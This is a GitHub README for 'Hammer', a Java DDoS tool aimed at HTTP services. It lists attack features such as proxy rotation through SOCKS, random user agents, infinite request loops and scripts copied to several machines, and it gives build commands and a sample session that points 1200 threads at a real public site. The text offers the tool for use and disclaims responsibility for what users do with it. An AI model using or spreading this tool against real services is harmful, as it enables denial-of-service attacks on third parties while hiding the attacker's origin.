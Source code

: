# Hammer
Java based dDos tool
---

Hammer is dDos script that targets HTTP based applications. This script is written in Java and it's only experimental so **I do not take responsiblities for any usages**, you might use it at your own risks.


## Main features

- HTTP GET and POST (only json) support
- Accepts multiple threads
- Configurable headers
- Automatically adds random user agent to headers
- Accepts and forces you to use SOCKS proxy
- Can read list of SOCKS proxy from url
- Configurable number of threads running the attack.
- Distributed different proxies to between requests. Distributed requests between threads.
- Can run infinite attack until told to stop
- Configurable sleep time between request from each service (Default is random)
- Uses **Spring Shell**, therefore its easy to write an attack script and copy it into several machines


## RUN

First build the project

    mvn clean install

Run it
```
 $ docker build -t image/hammer .
 $ docker run -it image/hammer
```

Commands:

    add-get-request: Adds get request for attack
    add-header: Adds header
    add-post-request: Adds post request for attack
    add-proxy: Adds proxy - example => 127.0.0.1:9050
    clean: Cleans attack settings
    explain: Explains current config
    read-proxy-list: Reads proxy list from url
    running: Makes infinite running threads, default is false
    set-sleep: Sets exact sleep time between infinte loop of each thread. Default = 0 (Random sleep time)
    start: Runs hammer 
    stop: Stops hammer
    threads: Sets threads count

Example:
```
   shell:>add-proxy 127.0.0.1:9050
   2019-05-13 17:27:37.228  WARN 1 --- [           main] load.test.shell.hammer.Commands          : You cant add proxies to currently running jdDos! Do a restart
   2019-05-13 17:27:37.229  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>add-get-request http://google.com
   2019-05-13 17:27:41.542  WARN 1 --- [           main] load.test.shell.hammer.Commands          : New requests wont effect running attack. You must restart attack
   2019-05-13 17:27:41.543  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>threads 1200
   2019-05-13 17:27:45.230  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>explain
   Addresses: 
   400 threads will make request to http://google.com
   400 threads will make request to http://localhost.com/post
   400 threads will make request to http://google.com
   Proxies: 
   127.0.0.1:9050
   127.0.0.1:9050
   Infinite requests: false
   Total threads count: 1200
   
   shell:>add-post-request --address http://localhost.com/post --data {\"name\":\"yuri_lenzi\"}
   2019-05-13 17:28:05.502  WARN 1 --- [           main] load.test.shell.hammer.Commands          : New requests wont effect running attack. you must restart attack
   2019-05-13 17:28:05.502  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   shell:>start
```

To skip writing all commands each time, create a file named `scripts.txt` for example and enter all the commands in right order.
Then start `hammer` and enter:

    script --file /address/to/scripts.txt

Your attack configuration will load into the application.

